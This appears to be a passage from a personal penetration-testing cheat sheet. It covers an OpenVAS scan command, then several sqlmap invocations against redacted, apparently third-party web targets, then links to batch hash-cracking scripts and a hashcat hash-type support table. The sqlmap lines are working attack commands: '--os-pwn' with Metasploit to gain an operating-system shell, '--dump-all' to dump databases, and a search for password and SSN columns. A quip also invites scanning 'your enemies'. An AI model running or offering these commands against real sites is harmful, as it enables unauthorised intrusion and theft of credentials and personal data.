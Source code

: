             etc.
            
            The server listens on port: 9390 by default so you'll want to tell your client to connect there. Once you have the file created, you can kick off your scan like this:
            
            OpenVAS-Client -q 127.0.0.1 9390 admin scanme.txt -T html \
                 ~/Desktop/openvas-output-`date`.html 
            
            You'll be prompted to accept the SSL certificate, go ahead, it's automagically created by the pkg when it's installed. Then, open that file in a browser when it's done and start going through it. Be warned, scanning is very hostile so you should really only scan your own systems.. and those of your enemies.
            
            
            # sqlmap notes .. also check out Havij 1.15 - Advanced SQL Injection 
            
            --wizard
            --search -C pass,pwd,ssn
            
            
            /pentest/database/sqlmap/sqlmap.py -u "https://tZZZZZZ.com/ZZZZZ/Default.aspx" --data="__VIEWSTATE=%ZZZZZZZZ&btnContinue=Continue" --os-pwn --msf-path /pentest/exploits/framework
            
            /pentest/database/sqlmap/sqlmap.py -u "http://ZZZZ4/forgotpass.aspx" --data="__VIEWSTATE=%2FZZZZZZ&email=a&submit=Password" --dump-all --exclude-sysdbs
            
            

for use with burpsuite and NTLM stop and threads also good stuff
-------------------

            /bin/python2.7.exe sqlmap.py  --start=1 --stop=10 --threads=10  -p Batch_dt --dbms=mssql --proxy="http://localhost:8080" -u 'http://yaySQLI?Batch_dt=8%2f12%2f2015&Batch_nbr=1&Loc=MOB'  --dump-all --exclude-sysdbs
            
            
            
            #oclHashcat plus Support List :
            
            # scripts !
            http://itsecblog.net/downloads/batchcrack.sh
            http://rmccurdy.com/scripts/batchcrack_rmccurdy.bat
            
            number 	PSA 	hashcat (0.39b24) 	oclHashcat-plus (0.08b25) 	oclHashcat-lite (0.10b9)
            0 	MD5 	x 	x 	x
            1 	*md5($pass.$salt) (see 11) 	x 		
            2 	*md5($salt.$pass) (see 21) 	x 		
            3 	*md5(md5($pass)) (see 2600) 	x 		
            4 	*md5(md5(md5($pass))) 	x 		
            5 	*vBulletin < v3.8.5 (see 2611) 	x 		
            6 	*md5(md5($salt).$pass) (see 2811) 	x 		
            7 	*md5($salt.md5($pass)) 	x 		
            8 	*md5($salt.$pass.$salt) 	x 		
            9 	*md5(md5($salt).md5($pass)) 	x 		
            10 	*md5(md5($pass).md5($salt)) 	x 		x
            11 	*md5($salt.md5($salt.$pass)) 	x 		
            11 	Joomla 		x 	x
            12 	*md5($salt.md5($pass.$salt)) 	x 		
            15 	*vBulletin > v3.8.5 (see 2711) 	x 		
            21 	osCommerce, xt:Commerce 		x 	
            30 	*md5($username.0.$pass) 	x 		
            31 	*md5(strtoupper(md5($pass))) 	x 		
            100 	SHA1 	x 	x 	x
            101 	nsldap, SHA-1(Base64), Netscape LDAP SHA 		x 	x
            101 	*sha1($pass.$salt) 	x 		
            102 	*sha1($salt.$pass) 	x 		
            103 	*sha1(sha1($pass)) 	x 		